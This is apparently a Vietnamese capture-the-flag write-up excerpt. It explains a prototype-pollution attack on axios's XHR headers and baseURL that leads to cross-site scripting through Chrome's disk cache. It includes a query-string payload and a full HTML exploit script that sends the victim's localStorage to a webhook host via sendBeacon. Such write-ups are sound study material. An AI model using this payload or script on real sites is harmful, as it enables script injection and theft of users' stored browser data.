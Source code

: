 ### Exploit

Nhìn vào source của axios ta sẽ biết có 3 adapter mà axios dùng để gửi request là `XHR`, `http` và `fetch`. 

![image](https://github.com/user-attachments/assets/6ec5540d-f982-4e99-bd2f-da7b0d0d4a96)

Nếu context là ở browser, axios sẽ prefer `XHR` hơn

![image](https://github.com/user-attachments/assets/2cc53f7e-8f5d-4797-9485-31a990484db9)

Ta sẽ dùng prototype pollution để control header lúc gửi đi của XHR và `baseURL` của axios

![image](https://github.com/user-attachments/assets/b3512af2-98b1-4d0f-ae8e-78cb7ea987c4)

payload sẽ như sau:

```
?__%70roto__[headers][SCRIPT_NAME]=data:text/javascript,alert(1)&__%70roto__[baseURL]=data:text/javascript,alert(1)/
```

Sau khi response đã có trong cache ta có thể trigger disk cache để xss, đầu tiên thì khi page được open bởi `window.open` thì chrome sẽ ưu tiên sử dụng disk cache thay vì bfcache, full script của player `@_arkark`

```html
<body>
  <script>
    // const BASE_URL = "http://localhost:3000";
    const BASE_URL = "https://iframe-note.be.ax";

    const HOOK_URL = "https://webhook.site/xxxxx";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const main = async () => {
      const dataUrl = `data:text/javascript,navigator.sendBeacon('${HOOK_URL}',JSON.stringify(localStorage))`;

      const win = open(`${BASE_URL}/${dataUrl}/iframe/view`);
      await sleep(1000);

      win.location = `${BASE_URL}/view?id=view&__%70roto__[headers][SCRIPT_NAME]=${dataUrl}/iframe&__%70roto__[baseURL]=/${dataUrl}/`;
      await sleep(1000);

      win.location = `${location.origin}/back.html?n=2`;
    };
    main();
  </script>
</body>
```
